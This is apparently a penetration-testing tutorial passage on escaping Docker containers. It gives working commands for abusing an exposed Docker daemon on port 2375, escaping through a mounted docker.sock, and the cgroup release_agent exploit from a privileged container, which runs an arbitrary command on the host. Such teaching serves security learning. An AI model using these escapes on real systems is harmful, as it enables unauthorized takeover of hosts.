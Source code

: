 If someone is communicating with the Docker daemon over the network, there is likely a way for you to abuse it. If it's configured to listen on the network, the default port is 2375, and you can verify whether or not you have command access by doing

```shell
$ curl http://IP_ADDRESS:2375/version
```

From here, you can get access to arbitrary docker commands like so, using any argument you want in place of `ps`.
```shell
$ docker -H IP_ADDRESS:2375 ps
```

You can start executing whatever Docker commands you want, or just escalate privileges in whatever magical way you come up with (there are ways but finding them is easy).

But what if your target isn't completely oblivious to this issue? If you are in a container, and you find that the `docker.sock` file is in the container, you abuse this as well. Assuming you have the privileges to run `docker` from within the container, and an image like `alpine` is already on the box, running the below command is an instant escape. 

```shell
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

We mount the host's root directory to the `/mnt` directory in a new container and enter that new container with `sh`.

### Privileged Containers
Privileged containers are fundamentally less secure than non-privileged containers. Referring to the diagram from before, Docker containers typically communicate with the Docker Engine, which then talks to the host OS. In the case of a privileged container, however, a container communicates directly with the host OS, which can be abused.

We can create a privileged container on our host like so:
```shell
$ docker run --rm -it --privileged ubuntu bash
```

We can enumerate the capabilities we have using `capsh --print`. The capability we will focus on is `cap_sys_admin`, but some of the other setups are described in Hacktricks. [Felix Wilhelm](twitter.com/@_fel1x) was the one who discovered this specific PoC, but this [TrailOfBits post](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes) explains the details of the exploit in much more depth than will be covered here.

```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /exploit
echo "COMMAND" >> /exploit
chmod a+x /exploit
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

